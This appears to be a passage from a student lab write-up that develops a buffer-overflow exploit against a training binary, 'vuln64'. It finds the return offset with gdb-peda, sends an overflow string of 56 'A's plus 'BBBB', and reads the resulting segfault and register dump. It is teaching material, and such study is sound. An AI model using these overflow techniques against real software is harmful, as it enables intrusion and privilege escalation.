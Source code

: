 

Use the in-built peda pattern_search command to calculate the offset number, of which we determine that the offset to this vulnerable function is '56'

```sh
gdb-peda$ pattern_search
Registers contain pattern buffer:
RBP+0 found at offset: 48
Registers point to pattern buffer:
[RAX] --> offset 0 - size ~100
[RSI] --> offset 1 - size ~101
[RSP] --> offset 56 - size ~44
[R8] --> offset 0 - size ~100
```

To confirm the offset, open another terminal, run a small python command and execute the vuln64 program again. Place the string into the prompt to overflow the buffer

```sh
┌──(student㉿kali)-[~/Desktop/assign2/app]
└─$ python -c 'print "A"*56 + "BBBB"'
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB
                                                                                                              
┌──(student㉿kali)-[~/Desktop/assign2/app]
└─$ ./vuln64 h
This is an admin tools to run programs with elevated privileges
Press Enter to return...
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB
zsh: segmentation fault  ./vuln64 h

```

Execute the below command to verify the cause of the segfault.

```sh
┌──(student㉿kali)-[~/Desktop/assign2/app]
└─$ sudo dmesg | grep -i segfault                                                                       139 ⨯
[sudo] password for student: 
[  297.389068] vuln64[1306]: segfault at 42424242 ip 0000000042424242 sp 00007ffc3f30c280 error 14 in libc-2.31.so[7f638cded000+25000]

```

Returning to gdb, we perform the same and see that the RSI register is filled with BBBB, which indicates we have control over the execution flow of the program. 

> **Note** :The RIP register on x86-64 is a special purpose register that holds the memory address of the next executable instruction.

```sh
gdb-peda$ r h
Starting program: /home/student/Desktop/assign2/app/vuln64 h
This is an admin tools to run programs with elevated privileges
Press Enter to return...
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
RAX: 0x7ffc9187ddb0 ('A' <repeats 56 times>, "BBBB")
RBX: 0x0 
RCX: 0x7f6824ad5980 --> 0xfbad2288 
RDX: 0x0 
RSI: 0x7996b1 ('A' <repeats 55 times>, "BBBB\n")
RDI: 0x7f6824ad8680 --> 0x0 
RBP: 0x4141414141414141 ('AAAAAAAA')
RSP: 0x7ffc9187ddf0 --> 0x7ffc9187e048 --> 0x7ffc9187e409 ("/home/student/Desktop/assign2/app/vuln64")
```